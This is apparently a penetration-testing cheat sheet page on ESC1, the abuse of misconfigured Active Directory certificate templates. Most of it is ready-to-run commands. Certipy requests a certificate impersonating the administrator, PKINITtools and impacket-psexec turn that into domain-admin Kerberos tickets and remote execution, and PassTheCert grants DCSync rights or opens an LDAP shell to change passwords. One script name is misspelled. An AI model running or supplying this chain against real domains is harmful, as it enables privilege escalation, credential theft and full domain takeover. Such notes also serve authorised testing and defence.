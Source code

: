 # ESC1

**ESC1** is a vulnerability where **a low-privileged user** in a Windows domain can **abuse misconfigured certificate templates** to get a certificate that lets them **impersonate another user — even a domain admin**.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Get the .pfx cert

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
certipy req -ca 'ca_name' -dc-ip 'DC_IP' -u 'USER' -p 'PASS' -template 'ESC1' -target 'FQDN' -upn 'administrator@DOMAIN.local'

certipy req -u "USER@DOMAIN.local" -p 'PASS' -dc-ip 'DC_IP' -target "FQDN" -ca 'ca_name' -template 'vulnerable_template' -upn 'administrator@DOMAIN.local'
```
{% endcode %}

{% hint style="info" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

## Use pfx cert

### Pass-the-Ticket to auth

Once we have the .pfx file we can use the Pass-the-Ticket technique to get TGT and impersonate the domain admin user.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>git clone https://github.com/dirkjanm/PKINITtools
</strong>
<strong>
</strong><strong>python getttgtpkinit.py &#x3C;DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache
</strong>
export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@&#x3C;DC_IP> -k -no-pass

</code></pre>



### Pass-the-Cert to auth

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or change password for a specific user.

{% code overflow="wrap" %}
```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
git clone https://github.com/AlmondOffSec/PassTheCert

passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate

# remote code execution
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain DOMAIN.local -dc-ip IP 
```
{% endcode %}

When we have a ldap-shell we can change a user passowrd using the `change_password` function.



## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/#elementor-toc__heading-anchor-9" %}
